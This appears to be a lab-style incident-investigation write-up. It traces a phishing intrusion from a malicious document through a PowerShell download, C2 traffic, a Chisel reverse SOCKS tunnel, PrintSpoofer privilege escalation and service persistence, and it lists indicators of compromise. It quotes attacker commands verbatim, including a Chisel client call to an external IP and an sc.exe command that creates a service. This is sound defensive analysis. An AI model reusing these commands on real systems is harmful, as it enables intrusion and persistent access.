









# PhishTeam C2 Intrusion Investigation

## Overview

This investigation analyzes a compromise that began when a user opened a malicious document. The attack involved payload delivery, command-and-control communication, reverse SOCKS tunneling, privilege escalation using PrintSpoofer, and persistence through a Windows service.

Tools used during the investigation:

- Wireshark
- Brim
- Sysmon View
- Timeline Explorer
- CyberChef

---

## Dataset

- `capture.pcap` – network packet capture  
- `sysmon.evtx` – Sysmon logs  
- `windows.evtx` – Windows event logs  

---

## Initial Access

The user **benimaru (TEMPEST)** opened a malicious document named:

`free_magicules.doc`

The document executed a **Base64-encoded PowerShell payload** which downloaded a malicious archive:

`http://phishteam.xyz/02dcf07/update.zip`

### Evidence

---

## Payload Delivery

The downloaded archive extracted a binary named **first.exe**, which was written to the system and executed.

### Evidence

---

## Base64 Encoded Payload

The malicious document executed a Base64 encoded command.  
Using **CyberChef**, the payload was decoded to reveal the malicious download URL.

### Evidence

---

## Command and Control Communication

Network traffic analysis revealed communication with the command-and-control server:

`resolvecyber.xyz`

The compromised host requested commands from the URI:

`/9ab62b5`

### Evidence

---

## Reverse SOCKS Proxy

The attacker executed the command:

`ch.exe client 167.71.199.191:8080 R:socks`

This established a **reverse SOCKS proxy**, allowing the attacker to pivot into internal services on the compromised machine.

### Evidence

Hash lookup confirmed that the binary used was **Chisel**, a TCP tunneling tool.

---

## Privilege Escalation

The attacker used **PrintSpoofer** to exploit the Windows privilege:

`SeImpersonatePrivilege`

This allowed the attacker to escalate privileges to **SYSTEM**.

### Evidence

---

## Persistence and Account Creation

After obtaining SYSTEM privileges, the attacker created two new user accounts:

- `shion`
- `shuna`

The account **shion** was added to the **local administrators group**.

The attacker then created a persistent service:

`TempestUpdate`

Command executed:

`sc.exe \\TEMPEST create TempestUpdate binpath= C:\ProgramData\final.exe start=auto`

### Evidence

---

## Indicators of Compromise

**Domains**

- phishteam.xyz
- resolvecyber.xyz

**IP Addresses**

- 167.71.199.191
- 167.71.222.162

**Malicious Files**

- update.zip
- first.exe
- ch.exe
- spf.exe
- final.exe

**Tools Observed**

- Chisel (reverse SOCKS proxy)
- PrintSpoofer (privilege escalation)

---

## Key Takeaways

This investigation demonstrates a full attack lifecycle including:

- Initial access via malicious document
- Payload download over HTTP
- Base64 encoded command execution
- Command-and-control communication
- Reverse SOCKS tunneling
- Privilege escalation using PrintSpoofer
- Persistence through Windows service creation